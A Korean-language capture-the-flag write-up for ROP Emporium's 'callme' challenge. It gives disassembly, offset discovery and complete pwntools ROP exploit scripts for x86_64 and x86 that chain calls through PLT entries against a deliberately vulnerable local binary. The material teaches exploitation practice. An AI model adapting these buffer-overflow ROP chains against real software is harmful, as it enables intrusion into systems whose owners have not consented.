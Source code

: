 # [callme](https://ropemporium.com/challenge/callme.html)
<br />

**Discription:**
> Reliably make consecutive calls to imported functions.
Use some new techniques and learn about the Procedure Linkage Table.
<br />
<br />

# x86_64

**Binary Protections:**
```yaml
  [*] '/home/kali/pico/callme'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
```
<br />

> [!WARNING]
> `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`
> <br />
> `callme_two(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`
> <br />
> `callme_three(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`
> 
> 인자를 올바를 순서로 각 함수를 순서대로 호출해야 FLAG가 출력됩니다.

<br />


```yaml
$ objdump -d callme

callme:     file format elf64-x86-64

Disassembly of section .text:
...
00000000004008f2 <usefulFunction>:
  4008f2:       55                      push   %rbp
  4008f3:       48 89 e5                mov    %rsp,%rbp
  4008f6:       ba 06 00 00 00          mov    $0x6,%edx
  4008fb:       be 05 00 00 00          mov    $0x5,%esi
  400900:       bf 04 00 00 00          mov    $0x4,%edi
  400905:       e8 e6 fd ff ff          call   4006f0 <callme_three@plt>
  40090a:       ba 06 00 00 00          mov    $0x6,%edx
  40090f:       be 05 00 00 00          mov    $0x5,%esi
  400914:       bf 04 00 00 00          mov    $0x4,%edi
  400919:       e8 22 fe ff ff          call   400740 <callme_two@plt>
  40091e:       ba 06 00 00 00          mov    $0x6,%edx
  400923:       be 05 00 00 00          mov    $0x5,%esi
  400928:       bf 04 00 00 00          mov    $0x4,%edi
  40092d:       e8 ee fd ff ff          call   400720 <callme_one@plt>
  400932:       bf 01 00 00 00          mov    $0x1,%edi
  400937:       e8 14 fe ff ff          call   400750 <exit@plt>
000000000040093c <usefulGadgets>:
  40093c:       5f                      pop    %rdi
  40093d:       5e                      pop    %rsi
  40093e:       5a                      pop    %rdx
  40093f:       c3                      ret
...
```
위 결과로 `usefulFunction`, `usefulGadgets`는 풀이에 필요한 정보를 담고 있음을 알 수 있습니다.

```yaml
$ python3 -q
>>> from pwn import *
>>> p = process("./callme")
[+] Starting local process './callme': pid 1512
>>> p.sendline(cyclic(600, n=8))
>>> p.wait()
[*] Process './callme' stopped with exit code -11 (SIGSEGV) (pid 1512)
>>> Corefile("./core.1512")
[+] Parsing corefile...: Done
[*] '/home/kali/pico/core.1512'
    Arch:      amd64-64-little
    RIP:       0x4008f1
    RSP:       0x7ffe6f9cb538
    Exe:       '/home/kali/pico/callme' (0x400000)
    Fault:     0x6161616161616166
Corefile('/home/kali/pico/core.1512')
>>> cyclic_find(0x6161616161616166, n=8)
40
```
오프셋은 40 입니다. 해당 정보들로 공격 코드를 작성할 수 있습니다.

<br />

```python
from pwn import *

context.log_level = "error"
context.arch = "amd64"

p = process("./callme")

gadgets = 0x40093c
func = [0x400720, 0x400740, 0x4006f0]
arguments = [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d]

pay = flat(
	{40:gadgets}, arguments, func[0],  # callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
	gadgets, arguments, func[1],       # callme_two(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
	gadgets, arguments, func[2]        # callme_three(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
)

p.sendline(pay)
p.interactive()
```
```bash
$ python3 test.py
callme by ROP Emporium
x86_64

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
$
```
<br />
<br />

# x86

**Binary Protections:**
```yaml
[*] '/home/kali/pico/ret2win32'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

<br />
<br />


```yaml
$ ROPgadget --binary callme32 | grep "pop"
...
0x080487f9 : pop esi ; pop edi ; pop ebp ; ret
...
```
인자가 3개이고, 페이로드 연결 및 스택 정리를 위해 위 가젯을 사용합니다. 나머지는 위 풀이 과정과 동일합니다.

<br />

```python
from pwn import *

context.log_level = "error"
context.arch = "x86"

e = ELF("./callme32")
p = process("./callme32")

pppr = 0x080487f9
func = [0x80484f0, 0x8048550, 0x80484e0]         # callme_one@plt ~ callme_three@plt
arguments = [0xdeadbeef, 0xcafebabe, 0xd00df00d]

pay = flat(
	{44:func[0]}, pppr, arguments, # callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)
	func[1], pppr, arguments,      # callme_two(0xdeadbeef, 0xcafebabe, 0xd00df00d)
	func[2], pppr, arguments       # callme_three(0xdeadbeef, 0xcafebabe, 0xd00df00d)
)

p.sendline(pay)
p.interactive()
```
```bash
$ python3 test.py
callme by ROP Emporium
x86

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
$
```
